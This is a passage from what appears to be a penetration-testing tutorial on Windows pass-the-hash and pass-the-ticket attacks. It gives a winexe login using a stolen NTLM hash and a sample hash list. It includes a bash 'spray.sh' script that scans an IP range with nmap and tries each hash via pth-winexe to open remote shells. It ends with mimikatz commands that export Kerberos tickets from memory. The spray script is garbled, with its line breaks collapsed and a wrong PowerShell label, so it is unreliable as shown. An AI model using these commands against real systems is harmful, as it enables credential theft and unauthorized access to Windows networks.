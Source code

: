 Method 2

{% highlight PowerShell %}
root@kali:~/Downloads# export
SMBHASH=aad3b435b51404eeaad3b435b51404ee:f3acbe7ec27aadbe8deeaa0c651a64af
root@kali:~/Downloads# winexe -U Administrator% //10.10.10.10 cmd.exe
{% endhighlight %}

### Script

We store out hashes in the following format.

{% highlight PowerShell %}
cat hash.lst
administrator:500:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889
{% endhighlight %}

cat spray.sh

{% highlight PowerShell %}
#!/bin/bashecho "[*] Usage : $0 <hashfile> <ip or iprange>"hashfile=$1iprange=$2echo "[*] Trying to login "for host in $(nmap -p 139,445 $iprange -oG - | grep [0-9]/open | cut -d ' ' -f2); do    while IFS=: read -r smbuser f2 f3 f4 rest; do        smbhash="${f3}:${f4}"        echo        echo "[+] DOING $smbuser@$host with HASH: $smbhash"        pth-winexe -U $smbuser%$smbhash //$host cmd; #the code that tries to login    done < "$hashfile"done
{% endhighlight %}

To run the script

{% highlight PowerShell %}
./spray.sh hash.lst 10.10.10.200
{% endhighlight %}

# Pass the Ticket

As with a PtH attack, this type of credential theft and reuse attack requires the attacker to obtain local administrative access to capture the stored Ticket Granting Tickets (TGTs) before they can reused with the Kerberos protocol. A Kerberos TGT and the associated session key together comprise a reusable credential for the Kerberos protocol. TGTs have a default lifespan of about 10 hours, and a default total lifetime of 7 days, if that TGT is repeatedly renewed before it expires. Attackers can steal TGTs and associated session keys and request a new session ticket at will until the renewal lifetime is reached

A significant difference in the attack value between NT hashes used in NTLM authentication and TGTs, is that password hashes are reusable until the user’s password changes, while TGTs expire in a matter of hours according to their lifetime. While Kerberos authentication is vulnerable to a similar attack, it is not likely to displace PtH attacks until NTLM becomes unavailable in organizations targeted by attackers. Unless the use of NTLM is explicitly disabled, password hashes are still created and stored in the LSASS process memory, and they are valid for authentication. NTLM also remains the most commonly used authentication protocol, because of the current level of NTLM support and compatibility with existing devices and software.

Start exporting tickets

{% highlight PowerShell %}
privilege::debug
sekurlsa::tickets /export
{% endhighlight %}
